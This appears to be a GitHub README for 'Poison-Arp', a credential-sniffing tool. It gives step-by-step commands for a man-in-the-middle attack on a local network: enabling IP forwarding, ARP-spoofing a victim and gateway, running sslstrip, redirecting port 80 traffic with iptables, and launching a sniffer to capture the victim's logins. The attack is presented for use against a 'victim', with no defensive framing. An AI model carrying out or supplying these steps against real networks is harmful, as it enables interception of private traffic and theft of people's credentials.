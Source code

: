 # Poison-Arp

This is tool can poison the Arp tables of the victim as well as router and sniff all the credentials of the victim.It works with both HTTP and HTTPS but not with HSTS.

Here I am going to import scapy module which is not inbuit in python3 so you have to install it manually by the following command:-

$ pip3 install scapy-python3

or 

$ apt-get install scapy-python3

or
    
    $ git clone https://github.com/phaethon/scapy
    $ cd scapy
    $ sudo python3 setup.py install
    
    
Step 1:- Allow traffic to pass through the Hacker machine with the below command 

$ echo 1 > /proc/sys/net/ipv4/ip_forward

![](/images/traffic_bypass.png)


Step 2:- Now run the arp-spoofer  with the below command 

$ python3 arp_spoofer.py --gateway  ap_ip --target victim_ip

![](/images/spoofy.png)

Step 3: Run the sslstrip with the below command

$ sslstrip

![](/images/ssltrip.png)

Step 4: forward all the traffic to sslstrip port using iptables with the following command 

$ iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT  --to-port 10000 

![](/images/iptables.png)


Step 5: Run the sniffer with the following command

$ python3 sniffer.py -i interface

![](/images/login_new.png)








